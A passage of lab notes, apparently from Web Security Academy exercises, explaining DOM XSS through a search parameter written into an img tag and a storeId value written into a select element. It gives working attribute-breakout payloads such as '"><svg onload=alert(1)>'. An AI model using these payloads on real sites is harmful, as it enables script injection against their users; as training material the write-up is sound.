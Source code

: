 That script gets value from the url `search` param and create a new img tag `src` of which contains value that was specified in the url after `?search=`.

As a result that script creates an html element:
```
<img src="/resources/images/tracker.gif?searchTerms=random">
```

So we can write into the search input the following:
```
"><svg onload=alert(1)>
```
which will still create an img but after it'll create a new `svg` element with `onload` event on it.
```
<img src="/resources/images/tracker.gif?searchTerms=">
<svg onload="alert(1)">"&gt;</section></svg>
```
And our script will be executed

**BTW**: `fff" onload="alert()` also works, instead of creating another svg element it'll append `onload` event to that `img`:
```
<img src="/resources/images/tracker.gif?searchTerms=fff" onload="alert()">
```

### Lab: DOM XSS in document.write sink using source location.search inside a select element
There's a js script:
```bash
<script>
var stores = ["London","Paris","Milan"];
var store = (new URLSearchParams(window.location.search)).get('storeId');
document.write('<select name="storeId">');
if(store) {
    document.write('<option selected>'+store+'</option>');
}
for(var i=0;i<stores.length;i++) {
    if(stores[i] === store) {
        continue;
    }
    document.write('<option>'+stores[i]+'</option>');
}
document.write('</select>');
</script>
```
As you can see it reads value of `storeId` from the url and creates a `<option selected>...` of that value.
It's interesting that when we visit this url from a website we don't really have `storeId` in the url, in the url we have `productId`:
```
https://ff.web-security-academy.net/product?productId=1
```
So we try to add `storeId`:
```
https://ff.web-security-academy.net/product?productId=1&storeId=hi
```
And we see that it is reflected on the page (thanks to the js script shown above):
```
<select name="storeId">
<option selected="">hi</option>
<option>London</option>
<option>Paris</option>
<option>Milan</option>
</select>
```
